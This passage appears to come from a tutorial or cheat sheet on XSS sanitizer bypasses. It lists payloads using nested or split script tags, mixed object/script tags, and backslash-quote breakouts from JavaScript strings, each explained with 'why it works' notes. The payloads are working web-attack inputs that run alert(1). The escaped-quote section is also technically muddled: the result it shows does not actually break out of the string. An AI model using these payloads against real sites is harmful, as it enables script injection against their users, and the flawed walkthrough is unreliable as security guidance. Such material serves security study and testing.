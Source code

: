   ```html
  <script><script>alert(1)</script>
  ```

  – Some sanitizers only remove the *first* instance due to `replace()` vs `replaceAll()` mix-up.

* Try **recursive tricks**:

  ```html
  <scr<script>ipt>alert(1)</script>
  ```

* Try **confusing mixed tags**:

  ```html
  <scr<object>ipt>alert(1)</script>
  ```

🧠 Why it works:

* Browser interpreters may “fix” malformed or nested tags.
* The sanitizer strips `script` and `object`, but **not both at the same time**, allowing fragments to slip through.

---

### 🧨 4. Escaped Quotes Inside JavaScript

**Context**: Your input is being dropped inside a JS string:

```html
<script>var a = 'userinput';</script>
```

**Sanitizer behavior**: Escapes `'` as `\'`

🔨 **Bypass Logic**:

* Inject a **backslash followed by a quote**:

  ```js
  foo\';alert(1);// 
  ```

  Results in:

  ```js
  var a = 'foo\'; alert(1);//';
  ```

🧠 Why it works:

* Backslash escapes the closing quote → *you break out of the string*.
* `//` comments out the rest of the script.

---

### 🔁 5. Escaping the Escaper (Double Escaping)

Sometimes sanitizers escape quotes and also backslashes:

```js
'foo\\';alert(1);//'
```
